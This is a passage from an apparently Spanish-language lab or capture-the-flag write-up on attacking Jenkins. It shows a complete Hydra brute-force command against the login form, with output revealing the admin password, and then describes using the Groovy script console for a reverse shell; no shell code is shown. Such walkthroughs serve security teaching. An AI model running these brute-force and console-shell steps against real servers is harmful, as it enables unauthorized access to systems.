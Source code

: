 Una vez realizado el Local Port Forwarding, podríamos acceder al servicio de Jenkins en la máquina objetivo desde nuestra máquina local a través del navegador web mediante la dirección `http://localhost:8081` o `http://127.0.0.1:8081`. De esta manera, podemos interactuar con el servicio de Jenkins como si estuviéramos accediendo a él directamente desde la máquina objetivo.

![jenkins](jenkins.png)

### Ataque de fuerza bruta a Jenkins

Al no funcionar las contraseñas por defecto (`admin/password`) en nuestro caso, la siguiente opción sería intentar realizar un ataque de fuerza bruta al panel de inicio de sesión de Jenkins. Para llevar a cabo esta tarea, utilizamos la herramienta Hydra y ejecutamos el siguiente comando:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 8081 http-post-form '/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password' -t 64
```

> En este caso, utilizamos el método `POST` ya que, al inspeccionar la forma en que se realiza la petición, observamos que es el método utilizado junto con los parámetros que se envían en la solicitud.
{: .prompt-info }

![red](red.png)

Al finalizar el ataque, la herramienta nos proporciona la contraseña correspondiente al usuario `admin`.

```bash
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 8081 http-post-form '/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password' -t 20
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-03 24:45:15
[DATA] max 20 tasks per 1 server, overall 20 tasks, 14344399 login tries (l:1/p:14344399), ~717220 tries per task
[DATA] attacking http-post-form://localhost:8081/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password
[8081][http-post-form] host: localhost   login: admin   password: spongebob
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-03 24:45:42
```

Utilizando las credenciales obtenidas, iniciamos sesión en el panel de Jenkins.

![jenkins1](jenkins1.png)

En este punto, podemos dirigirnos a la sección `Administrar Jenkins` y luego seleccionar `Consola de scripts`. Desde allí, generamos un script en Groovy utilizando [Reverse Shell Generator](https://www.revshells.com/) que nos permita obtener una shell inversa.
